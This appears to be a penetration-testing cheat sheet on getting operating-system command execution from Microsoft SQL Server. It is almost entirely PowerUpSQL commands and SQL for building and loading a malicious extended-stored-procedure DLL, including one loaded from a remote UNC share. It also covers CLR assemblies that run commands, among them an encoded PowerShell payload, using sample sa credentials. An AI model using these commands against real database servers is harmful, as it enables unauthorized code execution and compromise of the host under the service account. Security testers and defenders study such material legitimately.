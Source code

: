 
## Extended Stored Procedure

### Add the extended stored procedure and list extended stored procedures

```ps1
# Create evil DLL
Create-SQLFileXpDll -OutFile C:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test

# Load the DLL and call xp_test
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "sp_addextendedproc 'xp_test', '\\10.10.0.1\temp\test.dll'"
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "EXEC xp_test"

# Listing existing
Get-SQLStoredProcedureXP -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

* Build a DLL using [xp_evil_template.cpp](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp)
* Load the DLL
	```sql
	-- can also be loaded from UNC path or Webdav
	sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'
	EXEC xp_calc
	sp_dropextendedproc 'xp_calc'
	```

## CLR Assemblies

Prerequisites:
* sysadmin privileges
* CREATE ASSEMBLY permission (or)
* ALTER ASSEMBLY permission (or)

The execution takes place with privileges of the **service account**.

### Execute commands using CLR assembly

```ps1
# Create C# code for the DLL, the DLL and SQL query with DLL as hexadecimal string
Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile runcmd -OutDir C:\Users\user\Desktop

# Execute command using CLR assembly
Invoke-SQLOSCmdCLR -Username sa -Password <password> -Instance <instance> -Command "whoami" -Verbose
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64>" -Verbose

# List all the stored procedures added using CLR
Get-SQLStoredProcedureCLR -Instance <instance> -Verbose
```
